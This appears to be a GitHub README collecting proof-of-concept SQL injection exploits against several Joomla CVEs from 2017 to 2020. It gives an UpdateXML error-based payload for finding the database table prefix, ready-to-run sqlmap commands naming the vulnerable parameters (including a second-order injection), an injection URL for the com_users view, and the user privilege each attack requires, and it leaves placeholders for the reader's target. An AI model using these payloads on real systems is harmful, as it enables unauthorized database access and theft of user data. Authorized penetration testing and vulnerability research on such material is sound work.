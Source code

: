 # Joomla-SQLinjection PoC

0. CVE-2020-35613

1. CVE-2020-10243

2. CVE-2019-19846

3. CVE-2018-8045

4. CVE-2018-6376

5. CVE-2017-8917

# Payload to detect prefix table
## Step 1: Get hexa value
*UpdateXML(2, concat(0x3a,(SELECT HEX(MID(TABLE_NAME,1,16)) FROM information_schema.tables WHERE TABLE_NAME LIKE 0x257573657273 LIMIT 1,1), 0x3a), 1)*
## Step 2: Convert hexa to ASCII
+) Linux command: echo "hexa value" | xxd -r -p

+) Link: https://www.rapidtables.com/convert/number/hex-to-ascii.html

# 5. CVE-2017-8917
### User requirement: None
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/77494259-ddd35680-6e77-11ea-8331-106c89b48f7c.png)
## Sqlmap:
sqlmap -u "[your taget]/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=*" --dbms=mysql --technique=E --dbs
## Example
sqlmap -u "http://192.168.119.128/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=*" --dbms=mysql --technique=E --dbs
# 4. CVE-2018-6376
### User requirement: Manager (Lowest level)
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/77607304-73d8b100-6f4c-11ea-9c6b-72a56c55efda.png)

### Second-url:

![image](https://user-images.githubusercontent.com/24661746/77607359-a7b3d680-6f4c-11ea-9f66-78b24b5ee895.png)

## 3. CVE-2018-8045
### User requirement: Administrator
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/77608547-25c5ac80-6f50-11ea-9495-b13b00448d1c.png)
## 2. CVE-2019-19846
### User requirement: Super Users
## Detecting:
...Update later-...
## 1. CVE-2020-10243: SQL injection in Featured Articles menu parameters
# Author : Sam Thomas, Pentest.co.uk
# PoC by : Hoang Kien
## User requirement: admin (Not superadmin)
## Type: Second Order SQL Injection
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/78954200-8d115e00-7b05-11ea-8cd1-0d605fff4101.png)
## Second-url:
![image](https://user-images.githubusercontent.com/24661746/78954286-d2ce2680-7b05-11ea-9ffb-ec1263618056.png)

## Exploit as video:
https://vimeo.com/398763205
## Sqlmap:
 *sqlmap -r sqli.joomla.req --level=5 --risk=3 -p "jform%5Bparams%5D%5Bfeatured_categories%5D%5B%5D" --dbms=mysql --second-url "[your domain/IP]/index.php" --technique=E --dbs*
## Example:
sqlmap -r sqli.joomla.req --level=5 --risk=3 -p "jform%5Bparams%5D%5Bfeatured_categories%5D%5B%5D" --dbms=mysql --second-url "http://192.168.131.134:8080/index.php" --technique=E --dbs
## 0. CVE-2020-35613 : SQL injection in com_users list view
# Author : ka1n4t
# PoC by : Hoang Kien
## User requirement: admin (Not superadmin)
## Detecting:
[your domain/IP]/administrator/index.php?option=com_users&view=users&filter[excluded]='

![image](https://user-images.githubusercontent.com/24661746/102855478-50994e80-4457-11eb-8d6a-efeb51b9ac96.png)
Reference:

0. https://www.empressia.pl/blog/184-analiza-podatnosci-sql-injection-w-cms-joomla
1. https://pentest.co.uk/labs/advisory/cve-2020-10243/
2. https://xz.aliyun.com/t/6990
3. https://github.com/luckybool1020/CVE-2018-8045
4. https://www.notsosecure.com/analyzing-cve-2018-6376/
5. https://github.com/gottburgm/Exploits/tree/master/CVE-2017-8917
